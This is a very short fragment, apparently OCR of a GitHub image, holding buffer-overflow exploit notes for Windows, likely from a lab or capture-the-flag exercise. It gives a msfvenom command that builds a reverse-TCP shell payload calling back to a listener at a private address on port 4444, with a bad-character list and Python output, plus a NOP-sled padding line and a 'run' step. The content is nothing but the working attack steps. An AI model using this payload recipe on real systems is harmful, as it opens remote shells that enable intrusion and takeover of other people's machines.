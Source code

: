# Exploit!

### Windows

msfvenom -p windows/shell\_reverse\_tcp LHOST=10.11.28.212 LPORT=4444 EXITFUNC=thread -b "\x00\x23\x3c\x83\xba" -f py 

padding = "\x90" \* 16 

run 

